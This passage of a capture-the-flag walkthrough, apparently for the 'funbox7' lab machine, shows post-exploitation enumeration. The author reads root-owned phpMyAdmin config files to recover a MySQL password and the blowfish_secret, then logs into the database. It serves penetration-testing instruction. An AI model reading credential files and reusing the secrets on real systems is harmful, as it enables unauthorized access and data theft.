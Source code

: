 {% code overflow="wrap" %}
```bash
<SNIP>
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root www-data 525 Sep 18  2020 /etc/phpmyadmin/config-db.php
-rw-r----- 1 root www-data 8 Sep 18  2020 /etc/phpmyadmin/htpasswd.setup
-rw-r----- 1 root www-data 68 Sep 18  2020 /var/lib/phpmyadmin/blowfish_secret.inc.php
-rw-r----- 1 root www-data 0 Sep 18  2020 /var/lib/phpmyadmin/config.inc.php
<SNIP>
```
{% endcode %}

Reading these files reveals MySQL credentials along with the `blowfish_secret`.

{% hint style="info" %}
The `blowfish_secret` in `phpMyAdmin` is a critical security component that helps protect sensitive data. Accessing this value could potentially allow us to decrypt encrypted data, especially session cookies.
{% endhint %}

```bash
www-data@funbox7:/tmp$ cat /etc/phpmyadmin/config-db.php
<SNIP>
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

www-data@funbox7:/tmp$ cat /var/lib/phpmyadmin/blowfish_secret.inc.php
<SNIP>
$cfg['blowfish_secret'] = 'NZ7uiQns?c$8nkrQt^9E(?8OqdhwK!_!';
```

Exploring the database does not help us to progress further.

{% code overflow="wrap" %}
```bash
www-data@funbox7:/tmp$ mysql -h localhost -u 'phpmyadmin' -p'tgbzhnujm!'
<SNIP>

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| phpmyadmin         |
+--------------------+

mysql> USE phpmyadmin;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_phpmyadmin   |
+------------------------+
| pma__bookmark          |
| pma__central_columns   |
| pma__column_info       |
<SNIP>
| pma__userconfig        |
| pma__usergroups        |
| pma__users             |
```

[^1]: Remote Code Execution
[^2]: Brute Force Attack
[^3]: Brute Force Attack
[^4]: Living off the Land